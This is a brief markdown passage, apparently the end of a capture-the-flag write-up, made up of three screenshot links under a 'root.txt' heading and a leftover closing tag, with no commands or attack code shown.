

### root.txt





---
</PasswordProtect>